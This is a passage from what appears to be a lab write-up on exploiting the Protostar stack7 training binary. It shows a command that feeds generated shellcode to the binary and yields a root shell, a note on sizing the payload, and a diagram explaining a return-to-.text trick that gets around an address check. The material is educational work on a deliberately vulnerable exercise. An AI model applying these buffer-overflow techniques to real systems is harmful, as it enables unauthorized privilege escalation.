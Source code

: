 By executing the program with the generated input (and using `cat` to maintain the std input pipe open), a root shell can be obtained:

```
user@protostar:~$ (python ~/py.py ; cat) | /opt/protostar/bin/stack7
input path please: got path ������������������������������������������//sh�/binQVW�$�
                                                                                    ������������
whoami
root
```

**PITFALL**: Initially a bigger payload was used. It was done to increase the NOP-sled size. Although, this always resulted in a segmentation fault. This happened because the `malloc` function called from `strdup` was trying to access variables in the upper part of the stack which was overwritten by the payload, causing an access violation before the `getpath` function returned to the shellcode. The payload size was then calculated so that these variables are not overwritten.

#### Return to .text

As stated previously it is possible to jump back to the program `.text` section (as their addresses are allowed by the `(0xb0000000 & address) != 0xb0000000` check). Exploits such as "Return Oriented Programming" (ROP) use the existing instructions to gain control over the execution. In this case a similar but much simpler approach will be performed.

In order to surpass the check, the program will be instrumented to return into another `ret` instruction contained in the `.text` section. Then when executing the given `ret` instruction it is possible to jump again, but now into any address desired.

This is illustrated in the following figure:

```
                function:getpath            Stack
                                            (Overwriten payload)
0x08048538     +----------------+         +---------------+
               |lea             |         |               |
               |eax,[ebp-0x4c]  |         |               |
0x0804853b     +----------------+         | Padding       |
               |mov   DWORD PTR |         |               |
               |[esp],eax       |         |               |
0x0804853e     +----------------+         |               |
               |call   0x80483f4|         +---------------+
               |                |         |               |
0x08048543     +----------------+         |0x08048553     | <----+getpath return address
               |leave           |         +---------------+
               |                |         |Desired        |
0x08048544     +----------------+         |ret address    |
               |ret             +---+     +---------------+
               |                |   |     |               |
               +----------------+   |     |               |
                                    |     |               |
                                    |     |               |
                Somewhere in        |     |               |
                .text               |     |               |
 0x08048552    +----------------+   |     |               |
               |                |   |     +---------------+
               | pop ebp        |   |
 0x08048553    +----------------+   |
               |                <---+
               | ret            +---------> Return to desired address
               +----------------+
```
